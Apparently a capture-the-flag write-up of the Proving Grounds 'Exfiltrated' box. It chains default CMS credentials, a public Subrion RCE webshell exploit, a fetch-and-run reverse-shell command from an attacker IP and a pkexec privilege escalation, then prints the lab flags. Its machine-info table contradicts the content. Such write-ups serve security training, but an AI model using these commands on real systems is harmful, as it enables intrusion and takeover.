 ```yaml
---

categories: [ Proving Grounds, Practice ]
tags: [ pkexec, CMS, subrion, Public Exploit, default_creds]
media_subpath: /assets/images/
image:
  width: "1200"
  height: "630"
  alt: Linux Easy Level Machine...
  path: "exfiltration.png"
---
```



| Machine Link       | https://tryhackme.com/room/set               |
| ------------------ | -------------------------------------------- |
| Operating System   | Windows                                      |
| Difficulty         | Hard                                         |
| Machine Created by | [4ndr34zz](https://tryhackme.com/p/4ndr34zz) |

## Port Scan Results ⤵️

```bash

```
{: .nolineno}
## Web Enumeration ⤵️

![Image](Pasted%20image%2020240611111807.png)

![Image](Pasted%20image%2020240611111836.png)

with default creds file admin : admin I got administrators login 🔻

![Image](Pasted%20image%2020240611111935.png)

### Exploit Usage ⤵️

https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE/tree/main

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Exfiltrated]
└─$ python3 exploit.py -u http://exfiltrated.offsec/panel/ -l admin -p admin
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://exfiltrated.offsec/panel/
[+] Success!
[+] Got CSRF token: dbdBd1q5Oa501bIx1p24T44TnS0UdOgA2mzUdOzG
[+] Trying to log in...
wget http://192.168.45.1616^[[2~[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: eutwjgithrbhgym

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://exfiltrated.offsec/panel/uploads/eutwjgithrbhgym.phar 

      

$ wget http://192.168.45.161/rev.sh | bash

$ ls
eutwjgithrbhgym.phar
ewoyjlsedzraleo.phar
rev.sh

$ ./rev.sh

$ sh rev.sh
```
{: .nolineno}


```bash
www-data@exfiltrated:/var/www/html/subrion/admin$ sudo -V
sudo -V
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
www-data@exfiltrated:/var/www/html/subrion/admin$ /usr/bin/pkexec --version
/usr/bin/pkexec --version
pkexec version 0.105
www-data@exfiltrated:/var/www/html/subrion/admin$ cd /tmp
cd /tmp
www-data@exfiltrated:/tmp$ ls
ls
www-data@exfiltrated:/tmp$ wget http://192.168.45.161/pkexec_CVE-2021-4034.py
wget http://192.168.45.161/pkexec_CVE-2021-4034.py
--2024-06-11 05:43:38--  http://192.168.45.161/pkexec_CVE-2021-4034.py
Connecting to 192.168.45.161:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3067 (3.0K) [text/x-python]
Saving to: ‘pkexec_CVE-2021-4034.py’

pkexec_CVE-2021-403 100%[===================>]   3.00K  --.-KB/s    in 0.03s   

2024-06-11 05:43:38 (102 KB/s) - ‘pkexec_CVE-2021-4034.py’ saved [3067/3067]

www-data@exfiltrated:/tmp$ chmod +x pk	
chmod +x pkexec_CVE-2021-4034.py 
www-data@exfiltrated:/tmp$ python3 pkexec_CVE-2021-4034.py
python3 pkexec_CVE-2021-4034.py
Do you want to choose a custom payload? y/n (n use default payload)  

[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f7c852d6000 at 0x7f7c84b164c0>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# whoami
whoami
root
# cd /root
cd /root
# ls -al
ls -al
total 28
drwx------  4 root root 4096 Jun 11 05:24 .
drwxr-xr-x 20 root root 4096 Jan  7  2021 ..
lrwxrwxrwx  1 root root    9 Jun 10  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Jan  7  2021 .ssh
-rwx------  1 root root   33 Jun 11 05:24 proof.txt
drwxr-xr-x  3 root root 4096 Jan  7  2021 snap
# cat proof	
cat proof	
cat: proof: No such file or directory
# cat proof.txt
cat proof.txt
db0eaa7f647cd07d2a8b9b4f10322a14
# cd /home
cd /home
# ls -al
ls -al
total 12
drwxr-xr-x  3 root   root   4096 Jun 10  2021 .
drwxr-xr-x 20 root   root   4096 Jan  7  2021 ..
drwx--x--x  2 coaran coaran 4096 Jun 10  2021 coaran
# cd coaran
cd coaran
# ls -al
ls -al
total 24
drwx--x--x 2 coaran coaran 4096 Jun 10  2021 .
drwxr-xr-x 3 root   root   4096 Jun 10  2021 ..
lrwxrwxrwx 1 root   root      9 Jun 10  2021 .bash_history -> /dev/null
-rw-r--r-- 1 coaran coaran  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 coaran coaran 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 coaran coaran  807 Feb 25  2020 .profile
-rwxr--r-- 1 coaran coaran   33 Jun 11 05:24 local.txt
# cat local.txt
cat local.txt
e5fb28077f505fb52883ba4deb73dc32
# 

```
{: .nolineno}
















> If you have any questions or suggestions, please leave a comment below.
> Thank You ! 
{: .prompt-tip }